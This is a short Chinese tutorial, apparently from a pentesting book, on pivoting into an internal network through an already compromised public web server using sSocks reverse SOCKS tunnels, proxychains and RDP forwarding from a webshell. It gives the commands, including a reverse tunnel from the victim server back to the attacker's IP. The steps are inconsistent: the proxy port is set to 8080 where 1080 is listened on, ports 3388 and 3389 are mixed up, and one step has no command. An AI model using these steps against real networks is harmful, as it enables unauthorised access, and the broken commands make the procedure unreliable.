


# 利用 ssocks 进行内网穿透

> 原文：[http://book.iwonder.run/内网渗透/内网穿透/ssocks/1.html](http://book.iwonder.run/内网渗透/内网穿透/ssocks/1.html)

sSocks 是一个 socks 代理工具套装，可用来开启 socks 代理服务，支持 socks5 验证，支持 IPV6 和 UDP，并提供反向 socks 代理服务，即将远程计算机作为 socks 代理服务端，反弹回本地，极大方便内网的渗透测试，而 proxychains 代理链是 Linux 下一款代理设置工具。由于 Ssocks 不稳定，所以不建议使用。 现在有这么一个环境，我们获取到了位于公网 Web 服务器的 shell，该 web 服务器是 Linux 系统，内网中存在另外一台主机，这里假设内网存在一台 Web 服务器。然后，我们现在要将公网 Web 服务器设置为代理，访问和探测内网 Web 服务器的信息。

首先，我们的主机和公网的 Web 服务器都得安装上 Ssocks。 proxychains 的话 linux(基于 debian)下直接 apt install proxychains 就可以了

#### Web 服务器的操作

```
./rssocks -vv -s 100.100.10.13:9999   #接收 100.100.10.13 的 9999 端口的流量 
```



## 主机的操作

```
首先配置 proxychains 代理链的配置文件，把最后的内容改成  socks5 127.0.0.1 8080 

./rcsocks -l 1080 -p 9999 -vv   #然后将本地的 1080 端口的流量转发到 9999 端口

接下来，我们想要访问和操作操作内网主机 192.168.10.19 的话，只需要在命令前面加上 proxychains
比如，获得内网 Web 服务器的网页文件： proxychains curl 192.168.10.19 
```

 

## ssocks 转发的其他操作

```
第一步，用 sSocks 在 VPS 上建立 3388 与 3389 端口对应关系，实现流量互通：

root @ kali：〜＃/ root / ssocks-0.0.14 / src / rcsocks -l 3389 -p 3389 -vv

第二步，从攻击端连接 VPS 的 3388 端口，建议用 freerdp 而非 rdesktop，因为前者支持远程与本地连接等待，文本复制粘贴，挂载远程文件系统：

root @kali：〜＃xfreerdp / u：administrator / p：admin / v：【你的 ip】：3389

第三步，立即在大马上执行端口转发，可能需要连续多次点击开始：

注意，整个过程对步骤先后顺序敏感，VPS 上 rcsocks 端口映射好以后就可以不管了，先在攻击端执行 xfreerdp，让其会话保持，再在 webshel​​l 上转发内网的 3389。 
```

